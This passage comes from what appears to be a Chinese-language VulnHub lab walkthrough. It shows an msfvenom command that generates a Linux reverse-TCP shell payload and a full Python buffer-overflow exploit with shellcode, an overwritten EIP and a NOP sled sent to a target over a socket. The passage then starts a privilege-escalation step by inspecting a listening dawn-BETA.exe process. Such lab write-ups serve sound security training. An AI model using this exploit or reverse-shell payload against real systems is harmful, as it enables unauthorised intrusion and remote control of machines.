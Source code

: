 ### 靶机测试

只修改IP，反弹shell成功后就断掉

实际靶机是linux系统，需要重新生成shellcode

```bash
# Linux
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=444 -f python -b "\x00"
```



```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.7"
port = 1985
buf =  b""
buf += b"\xba\x6e\x48\x71\x2c\xdb\xcd\xd9\x74\x24\xf4\x5e\x31"
buf += b"\xc9\xb1\x12\x31\x56\x12\x03\x56\x12\x83\xa8\x4c\x93"
buf += b"\xd9\x05\x96\xa4\xc1\x36\x6b\x18\x6c\xba\xe2\x7f\xc0"
buf += b"\xdc\x39\xff\xb2\x79\x72\x3f\x78\xf9\x3b\x39\x7b\x91"
buf += b"\xb1\xb9\x79\x6e\xae\xbb\x7d\x71\x92\x35\x9c\xc1\x8c"
buf += b"\x15\x0e\x72\xe2\x95\x39\x95\xc9\x1a\x6b\x3d\xbc\x35"
buf += b"\xff\xd5\x28\x65\xd0\x47\xc0\xf0\xcd\xd5\x41\x8a\xf3"
buf += b"\x69\x6e\x41\x73"

buff = "A"*272
eip = '\x77\x17\x58\x34'
nullByte = "\x00"
nops = "\x90" * 24 
inputBuffer = buff + eip + nops  + buf + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)

```

![14](https://static.iihack.com/vulnhub/424/14.PNG)

## 提权

 发现根目录有个dawn-BETA.exe，开发web并下载

![15](https://static.iihack.com/vulnhub/424/15.PNG)

![16](https://static.iihack.com/vulnhub/424/16.PNG)

运行dawn-BETA.exe发现

```cmd
C:\Users\John>tasklist|findstr dawn
dawn-BETA.exe                 3764 Console                    1      2,088 Ks
C:\Users\John>netstat -ano|findstr 3764
  TCP    0.0.0.0:1435           0.0.0.0:0              LISTENING       3764
```
